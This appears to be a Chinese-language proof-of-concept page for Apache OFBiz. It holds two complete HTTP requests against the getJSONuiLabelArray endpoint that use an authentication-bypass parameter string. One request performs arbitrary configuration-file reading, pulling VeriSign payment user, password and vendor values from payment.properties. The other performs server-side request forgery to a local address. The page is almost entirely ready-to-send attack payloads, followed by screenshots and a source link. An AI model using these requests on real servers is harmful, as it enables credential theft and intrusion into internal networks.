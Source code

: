 ## Apache OFBiz SSRF && 任意配置读取


## 任意文件读取漏洞 poc
以读取 applications/accounting/config/payment.properties 中的几个 key 为例

```
POST /webtools/control/getJSONuiLabelArray/?USERNAME=&PASSWORD=s&requirePasswordChange=Y HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cache-Control: no-cache
Pragma: no-cache
Host: 
Content-type: application/x-www-form-urlencoded
Content-Length: 148

requiredLabels={"file:applications/accounting/config/payment.properties":["payment.verisign.user","payment.verisign.pwd","payment.verisign.vendor"]}
```
![image](https://github.com/wy876/POC/assets/139549762/093b6ca3-2917-4607-93a0-efaf2b3e2ca8)

## SSRF 
```
POST /webtools/control/getJSONuiLabelArray/?USERNAME=&PASSWORD=s&requirePasswordChange=Y HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cache-Control: no-cache
Pragma: no-cache
Host: 
Content-type: application/x-www-form-urlencoded
Content-Length: 148

requiredLabels={"http://127.0.0.1/":["xxxxxx"]}
````

这里随便写一个 properties 文件，然后 python -m http.server 8000 起个服务
![image](https://github.com/wy876/POC/assets/139549762/683a3f21-0405-43f1-9d51-a44752107432)

![image](https://github.com/wy876/POC/assets/139549762/7f5e826e-9564-4343-bf1e-d0d530ab7a3a)

![image](https://github.com/wy876/POC/assets/139549762/beb30398-fa1b-4028-98f9-b3e8ccb4d90e)




## 漏洞来源
- https://xz.aliyun.com/t/13211
